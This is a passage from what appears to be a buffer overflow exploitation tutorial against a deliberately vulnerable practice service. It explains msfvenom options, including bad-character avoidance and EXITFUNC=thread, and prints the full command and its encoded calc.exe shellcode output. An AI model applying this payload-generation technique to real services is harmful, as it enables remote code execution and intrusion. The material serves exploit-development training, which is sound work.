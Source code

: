 The options we will provide to `msfvenom` are:

* `-p windows/exec` (we want Windows shellcode that will `exec`ute a command)
* `-b '\x00\x0A'` (the list of bad characters we determined earlier, so that `msfvenom` can avoid having them in the generated shellcode)
* `-f python` (output shellcode in a Python-friendly format)
* `--var-name shellcode_calc` (tell `msfvenom` to output Python code that sets a variable called `shellcode_calc`)
* `CMD=calc.exe EXITFUNC=thread` (options for the `windows/exec` payload)

`CMD` gets set to `calc.exe` for poppage of calc. `EXITFUNC` specifies how the
shellcode should clean up after itself. If msfvenom wasn't to add some sort of
`FUNC`tion to `EXIT` with, execution would "fall off" the end of the shellcode
on the stack and random stack data would be executed as code, crashing the
process and ruining our day as attackers. By choosing an `EXITFUNC` of
`thread`, `msfvenom` will append some code that cleanly shuts down the thread
it is running in. Since `dostackbufferoverflowgood.exe` handles client
connections in separate threads, this will mean that the service as a whole
will continue to run after our shellcode executes. If we left `EXITFUNC` at the
default value of `process`, the shellcode would cause the whole service to shut
down after the shellcode had finished executing.

\newpage

Running `msfvenom` we get our shellcode:

```
% ~/opt/metasploit-framework/msfvenom -p windows/exec -b '\x00\x0A' \
    -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"
```

---